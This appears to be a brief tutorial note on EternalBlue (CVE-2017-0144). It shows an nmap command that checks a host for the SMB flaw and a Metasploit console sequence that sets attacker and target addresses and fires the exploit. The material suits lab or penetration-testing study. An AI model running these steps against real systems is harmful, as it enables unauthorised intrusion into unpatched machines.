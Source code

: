 EternalBlue's CVE code is CVE-2017-0144. EternalBlue takes advantage of a vulnerability in the SMB (Server Message Block) service.

```
sudo nmap --script=smb-vuln-ms17-010 -p445 -oN eternalbluecheck.nmap <ipaddr>
```
- This nmap scan will tell you whether or not a machine is vulnerable to EternalBlue.

To exploit a machine via EternalBlue through the MetaSploit Framework, do the following:
```bash
$ msfconsole  # Start the MSF console
msf6> search EternalBlue  # Find available exploits
msf6> use 0  # Choose the exploit
msf6> options  # Configure the exploit
msf6> set LHOST <attacker-IP>  # set the address to listen on (LHOST = local host)
msf6> set RHOST <target-IP>  # Set the address to send to (RHOST = remote host)
msf6> check  # Check if the target is vulnerable
msf6> exploit  # Fire the exploit
```


